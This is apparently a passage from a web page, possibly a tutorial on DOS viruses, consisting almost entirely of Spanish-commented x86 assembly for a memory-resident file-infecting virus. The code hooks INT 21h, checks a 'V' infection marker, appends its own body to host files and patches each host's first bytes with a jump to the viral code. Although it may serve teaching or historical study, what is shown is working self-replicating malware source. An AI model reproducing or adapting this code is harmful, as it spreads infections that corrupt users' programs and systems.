 
    jc close_file                           ; no se puede leer el archivo, cerrarlo

    cmp byte ptr [bp + host_head + 3], 'V'  ; comparar 4to byte con la firma viral 'V' 
    je close_file                           ; si el archivo ya esta marcado, cerrarlo

    mov ah, 42h                             ;| AH = 42h  
    mov al, 2                               ;| AL = 2, fin del archivo  
    xor cx, cx                              ;| CX = 0  
    xor dx, dx                              ;| DX = 0  
    int 21h                                 ;|_DOS API - Establecer puntero en archivo 

    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo  
    mov [bp + file_size], ax

    mov ah, 40h                             ; | AH = 40h  
    mov cx, VIRUS_SIZE                      ; | CX = tamaño del virus  
    lea dx, [bp + body]                     ; | DS:DX -> origen: inicio del código viral  
    int 21h                                 ; |_DOS API - Escribir en archivo/dispositivo 

    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo

    mov ax, [bp + file_size]                ; calcular el largo del JMP para el cabezal viral  
    sub ax, 3                               ; restarle 3 bytes del near JMP  
    mov byte ptr [bp + tmp_head], 0E9h      ; construir cabezal viral en buffer temporal (E9h = near JMP)  
    mov word ptr [bp + tmp_head + 1], ax  
    mov byte ptr [bp + tmp_head + 3], 'V' 

    mov ah, 42h                             ; | AH = 42h  
    mov al, 0                               ; | AL = 0, principio del archivo  
    xor cx, cx                              ; | CX = 0  
    xor dx, dx                              ; | DX = 0  
    int 21h                                 ; |_DOS API - Establecer puntero en archivo 

    jc close_file                           ; no se puede trabajar con el archivo, cerrarlo

    mov ah, 40h                             ; | AH = 40h  
    mov cx, 4                               ; | CX = tamaño del cabezal, 4 bytes  
    lea dx, [bp + tmp_head]                 ; | DS:DX -> origen: buffer temporal para cabezal viral  
    int 21h                                 ; |_DOS API - Escribir en archivo/dispositivo 

close_file:     
    mov ah, 3Eh                             ; | AH = 3Eh  
    int 21h                                 ; |_DOS API - Cerrar archivo 

exit:     
    pop ds                                  ; restaurar registros y estado CPU  
    pop si  
    pop dx  
    pop cx  
    pop bx  
    pop ax  
    popf

handler_old:     
    db 0EAh                                 ; JMP FAR  
   
vector_int21    dw   ?, ?                   ; vector original de INT 21h (4 bytes)
host_head       db   90h, 90h, 90h, 90h     ; buffer para cabezal original  
VIRUS_SIZE      equ  ($ - body)             ; tamaño del virus  
file_size       dw   ?                      ; buffer temporal para tamaño del huésped  
tmp_head        db   4 dup (?)              ; buffer temporal para cabezal viral

eof:                                        ; fin de porción residente para TSR 

virus ends  
end start  
{% endhighlight %}
